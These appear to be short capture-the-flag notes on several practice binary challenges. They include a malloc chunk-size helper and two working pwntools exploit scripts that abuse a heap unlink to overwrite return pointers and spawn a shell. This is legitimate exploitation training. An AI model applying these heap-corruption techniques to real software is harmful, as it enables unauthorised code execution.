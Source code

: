 ## blackJack
function betting is trick

## asm
syscall reference https://w3challs.com/syscalls/?arch=x86_64  

- push flag name to stack
- read flag
- output
- be careful about little endian  
    
## memcpy
assemble code mvntps is aligned to 0x10, you'd better know how to allocate malloc chunk before pwn it
```
def malloc_chunk_size(n):
	if n < 12:
		size=16
	else:
		if (n+4)%8==0:
			size=n+4
		else:
			size=8*((n+4)//8+1)
	return size

for i in range(3,13):
	p=2**i
	while malloc_chunk_size(p)%16 !=0:
		p=p+1
	print p
```
## unlink
main function disassem after unlink 
```
call    unlink
add     esp, 10h
mov     eax, 0
mov     ecx, [ebp-4]
leave
lea     esp, [ecx-4]
retn
```
##### Method 1
set ebp to heap address when return from unlink, just like we build a fake stack on heap (don't care esp, we don't need it anymore after returning from unlink )
```
from pwn import *
c=process("./unlink")
s=c.recvuntil("\n")
stackAdd=int(s[-11:-1],16)

s=c.recvuntil("\n")
heapAdd=int(s[-11:-1],16)

payload=pack(0x080484eb)
payload+=p32(heapAdd+12)
payload+="a"*8
payload+=p32(heapAdd+16)
payload+=p32(stackAdd-0x1c)# unlink return address, change it to heap
c.sendline(payload)
c.interactive()

```

##### Method 2
main return address is stored in `*(ebp-4)-4`, change the value in ebp-4 to heap address where we write shell address
```
from pwn import *
c=process("./unlink")
s=c.recvuntil("\n")
stackAdd=int(s[-11:-1],16)

s=c.recvuntil("\n")
heapAdd=int(s[-11:-1],16)

dic={
	0:p32(0x080484eb),
	16:p32(heapAdd+12),
	20:p32(stackAdd+0x10)
}
payload=fit(dic)
c.sendline(payload)
c.interactive()

```

